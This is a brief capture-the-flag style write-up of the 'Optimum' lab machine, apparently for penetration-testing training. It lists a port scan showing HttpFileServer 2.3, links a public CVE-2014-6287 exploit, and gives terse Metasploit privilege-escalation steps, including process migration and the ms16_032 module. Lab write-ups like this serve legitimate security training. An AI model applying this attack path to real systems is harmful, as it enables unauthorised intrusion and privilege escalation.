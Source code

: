 # Optimum Write-Up

Easy

Tags:
`Easy`
`External`
`HFS`
`Python`
`Penetration Tester Level 2`
`OS Command Injection`
`CVE-2014-6287`
`A03:2021-Injection`
`Network`
`CVE Exploitation`
`Public Vulnerabilities`


## Intro

1. 

## Enumeration

### Port scanning

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
```

[HttpFileServer 2.3 exploit](https://www.exploit-db.com/exploits/39161)

## Privilege Escalation

backgrounding session `<id>`

run post/multi/recon/local_exploit_suggester

interact session `<id>`

show process list

pid of explorer.exe

migrate `<pid>`

search exploit/windows/local/ms

use ms16_032_secondary_logon_handle_privesc
